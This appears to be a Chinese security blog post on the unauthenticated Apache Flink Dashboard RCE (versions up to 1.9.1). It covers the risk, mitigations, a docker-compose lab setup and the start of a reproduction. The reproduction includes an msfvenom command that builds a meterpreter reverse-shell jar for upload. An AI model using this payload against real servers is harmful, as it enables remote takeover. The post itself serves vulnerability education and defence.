 ```yaml
---
layout: post
title: Apache Flink 远程代码执行漏洞
categories: [安全漏洞]
description: apache flink 漏洞案例

keywords: 安全漏洞, flink
---
```




# 前言



漏洞危害：
Apache Flink 是一个分布式大数据处理引擎，可对有限数据流和无限数据流进行有状态计算。可部署在各种集群环境，对各种大小的数据规模进行快速计算。 Apache Flink Dashboard 存在一个远程代码执行漏洞。该漏洞无需攻击者进行认证，即可通过dashboard上传一个恶意的Jar包来远程执行代码。 

漏洞级别：高危
影响范围：
<= 1.9.1(最新版本)

修复建议：
1．请勿将使用的Flink集群在公网曝露；
2． 配置Flink访问白名单； 
3． 禁止公网对于8081端口（FLink默认端口）的访问流量； 4． 额外配置相关的认证策略；


## 环境搭建:


使用docker-compose.yml

```
version: "2.2"
services:
  jobmanager:
    image: flink:1.9.1
    ports:
      - "8081:8081"
      - "4444:4444"

    command: jobmanager
    environment:
      - |
        FLINK_PROPERTIES=
        jobmanager.rpc.address: jobmanager

  taskmanager:
    image: flink:1.9.1
    depends_on:
      - jobmanager
    command: taskmanager
    scale: 1
    environment:
      - |
        FLINK_PROPERTIES=
        jobmanager.rpc.address: jobmanager
        taskmanager.numberOfTaskSlots: 2

```
在docker-compose目录下执行：

```
docker-compose up
```

启动之后可以访问localhost:8081

## 漏洞复现

1. 打开MSF 生成一个 jar 木马

```
msfvenom -p java/meterpreter/reverse_tcp LHOST=<目标地址>  LPORT=4444 -f jar > testone.jar

```





![](https://pic4.zhimg.com/80/v2-fb6411d6734ccaf423e2e6b42ec9368f_720w.jpg)